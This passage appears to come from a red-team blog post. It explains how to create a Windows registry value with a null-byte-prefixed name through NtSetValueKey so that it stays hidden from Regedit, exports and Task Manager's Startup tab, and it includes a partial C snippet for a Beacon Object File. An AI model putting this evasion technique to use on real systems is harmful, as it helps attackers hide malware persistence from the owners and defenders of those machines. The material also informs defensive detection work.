 It is noteworthy that `NtSetValueKey()` takes a `UNICODE_STRING` as parameter, hence `valueName.Buffer` is a wide-char (wchar_t). The created key is not really hidden, but when *Regedit* tries to read it, it will  throw an error and not appear in the listing. The key cannot be exported and written to a file either and won't appear in the Startup tab of Task Manager.

![error](/assets/images/regedit-error.png)

![empty](/assets/images/regedit-empty.png)

Prepending *nullbytes* to a user inputted string was a little harder but I managed to work with a prefix.

```c
// < truncated for space >
char* buff = BeaconDataExtract(&parser, NULL);
wchar_t regkeyname[100];
toWideChar(buff, regkeyname, 100);

wchar_t prefix[200] = L"xx";
wcscat(prefix, regkeyname);

UNICODE_STRING valueName;
valueName.Buffer = prefix;
// get length first, because wcslen() will stop at a nullbyte
valueName.length = wcslen(prefix) * 2;
valueName.Buffer[0] = '\0';
valueName.Buffer[1] = '\0';
```
